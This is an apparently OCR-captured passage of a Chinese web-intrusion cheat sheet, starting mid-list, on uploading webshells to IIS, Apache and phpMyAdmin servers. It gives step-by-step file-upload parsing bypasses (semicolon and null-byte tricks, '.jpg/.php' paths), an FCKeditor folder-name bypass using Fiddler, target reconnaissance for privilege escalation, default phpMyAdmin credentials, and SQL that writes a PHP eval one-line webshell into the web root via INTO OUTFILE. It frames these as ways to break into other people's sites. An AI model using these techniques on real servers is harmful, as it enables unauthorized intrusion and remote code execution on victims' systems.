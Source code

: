 四：如果不是iis6.0 上传1.asp;jpg然后抓包，接下来改包，将分号变成空格，再用c32把20改成00，保存，利用 截断分号两次

五：成功访问别人的一句话木马页面，http://xx.com/UploadFiles\EditorFile\file/2.asp;2(1).jpg 但不知道密码

http://xx.com/UploadFiles\EditorFile\file\2_asp;2.jpg 这个是图片木马，没有成功利用iis6.0解析漏洞还是图片，下载下来用记事本打开找到密码。

六：IIS7.0/7.5 通杀oday，把php一句话木马后缀改成1.jpg传上去，找出一句话的路径后，在1.jpg的后面添加/.php 例如：http://www.xxx.com/iges/php.jpg/.php

( 建立文件夹 . 变 _ 的突破方法 )

利用Fiddler web debugger 这款工具来进行修改数据包，从而达到突破的目的。

注意：安装Fiddler web debugger，需要安装.net环境以及.net的SP2补丁方可运行！

1.打开fck的上传页面，例如：
2.fckeditor/editor/filemanager/browser/default/connectors/test.html

3.再打开Fiddler web debugger这款工具，点击设置–自动断点–选择 “请求之前”

4.接着打开fck的上传页面，创建文件夹，并输入你想要创建的文件名，例如：x.asp

5.然后返回到Fiddler web debugger这款工具里，选择链接–点击右侧的嗅探

6.修改currentfolder内的参数，改成你要建立的文件夹名字，如：x.asp

7.然后点击右侧的：run to completion

8.再点击软件设置–自动断点–禁用，再到浏览器里点击确定建立文件夹，你就会发现文件夹建立为x.asp了。
 
 
### 0x07 linux
 
解析格式：1.php.xxx (xxx可以是任意)

如果apache不认识后缀为rar的文件，我们就用1.php.rar格式上传，文件就会被服务器当做PHP脚本解析。

辨别linux系统方法，例如：http://www.xxx.com/xxx/abc.asp?id=125 把b换成大写B访问，如果出错了，就说明是linux系统，反之是windows系统.
 
 
### 0x08 旁注
 
旁注的技巧就是挑选支持aspx的站来日，这样提权时候希望较大，如何探测服务器上哪些站点支持aspx呢? 利用bing搜索：http://cn.bing.com/ 搜索格式：ip:服务器ip aspx

比如要入侵一个网站，想知道该网站支不支持aspx，就在网站后面随便加上一个xxx.aspx回车，如果显示的不是iis默认的错误页面，而是这种：“/”应用程序中的服务器错误，说明支持aspx马。
 
 
### 0x09 phpmyadmin
 
查看版本：test.php 或 phpinfo.php

默认账号密码：root root

万能帐号密码：’localhost’@’@” 密码空

拿shell第一种方法：

CREATE TABLE mysql.darkmoon (darkmoon1 TEXT NOT NULL );

INSERT INTO mysql.darkmoon (darkmoon1 ) VALUES (‘<?php @eval($_POST[pass]);?>’);

SELECT darkmoon1 FROM darkmoon INTO OUTFILE ‘d:/wamp/www/darkmoon.php’;
